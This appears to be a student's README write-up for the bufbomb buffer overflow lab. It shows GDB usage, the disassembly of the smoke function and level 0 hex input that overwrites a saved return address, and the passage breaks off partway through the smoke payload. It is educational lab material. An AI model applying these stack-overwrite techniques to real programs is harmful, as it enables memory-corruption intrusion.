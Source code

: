 # Buffer Overflow lab

## Info
* use GDB debugger
```
gdb ./bufbomb
(gdb) tui enable
(gdb) tui next // 4 times
(gdb) b (function name)
(gdb) run -u (student-number) < (raw txt file)
(gdb) nexti // check codes and registers
```
* Cookie - 0x79caf7f0

Basic idea of buffer overflow lab is when <test\> call <getbuf\> and <getbuf\> call <Gets\>, we input string which exceed buffer size. This string exploit the stack, then we can call other function or do new instruction which we input.
level 0 and level 1 are just manipulating return address that already exist as function. level 2 and level 3 are more complicated. we make some instruction to solve them, and return address is our instruction string(in stack), not the function.

### level 0: Candle
* smoke address: 0x08048c18
```
08048c18 <smoke>:
 8048c18:	55                   	push   %ebp
 8048c19:	89 e5                	mov    %esp,%ebp
 8048c1b:	83 ec 18             	sub    $0x18,%esp
 8048c1e:	c7 04 24 5f a3 04 08 	movl   $0x804a35f,(%esp)
 8048c25:	e8 66 fc ff ff       	call   8048890 <puts@plt>
 8048c2a:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048c31:	e8 ae 06 00 00       	call   80492e4 <validate>
 8048c36:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048c3d:	e8 7e fc ff ff       	call   80488c0 <exit@plt>
```
```./level0/smoke-test.txt``` is 44 bytes ascending order text file to check buffer overflow, and ```./level0/test-raw.txt``` is just make this file to raw file using ```hex2raw```.
```
./level0/smoke-test.txt
30 31 32 33
34 35 36 37
38 39 40 41
42 43 44 45
46 47 48 49
50 51 52 53
54 55 56 57
58 59 60 61
62 63 64 65
66 67 68 69
70 71 72 73
```
Executing bufbomb in gdb, input ```./level0/test-raw.txt``` file, it says 
> cannot access memory at address 0x73727170  

so in this case, "70 71 72 73" in string is exploited return address. so change these bytes to smoke address can call smoke function.
```
./level0/smoke.txt
30 31 32 33
34 35 36 37
38 39 40 41
42 43 44 45
46 47 48 49
50 51 52 53